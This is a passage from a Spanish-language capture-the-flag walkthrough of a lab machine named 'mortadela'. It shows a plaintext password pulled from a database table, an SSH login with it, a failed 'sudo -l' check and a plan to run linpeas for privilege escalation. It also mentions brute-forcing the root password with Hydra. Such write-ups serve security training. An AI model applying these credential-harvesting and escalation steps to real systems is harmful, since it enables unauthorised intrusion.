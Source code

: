 ```sql
| mortadela | Juanikokukunero8 |
+-----------+------------------+
1 row in set (0.002 sec)
```

Aquí tenemos un usuario y su contraseña sin encriptar. Descartamos Wordpress, nos queda el puerto 22.

### Acceso por SSH

Tachán....

```shell
❯ ssh mortadela@10.0.2.15
mortadela@10.0.2.15's password: 
Linux mortadela 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Apr  1 19:05:27 2024 from 192.168.0.105
mortadela@mortadela:~$ 
```

### Reflexión: El aprendizaje en cada paso

Antes tuvimos suerte encontrando con Hydra la password root, mientras analizábamos Wordpress. Evitamos una pérdida de tiempo muy grande, pero, el no ver la tabla `confidencial` nos ha hecho caer en otro agujero. Es lo maravilloso de este mundo **:)**

---

Continuaremos explorando desde aquí para descubrir qué más podemos encontrar en el sistema.




### Búsqueda de privilegios

Una vez dentro del sistema, buscamos cómo obtener privilegios de administrador.

```shell
mortadela@mortadela:~$ sudo -l
[sudo] contraseña para mortadela: 
Sorry, user mortadela may not run sudo on mortadela.
mortadela@mortadela:~$
```

Como no podemos utilizar `sudo -l`, vamos a descargarnos y ejecutar `linpeas`.


### ¿Qué es linpeas?
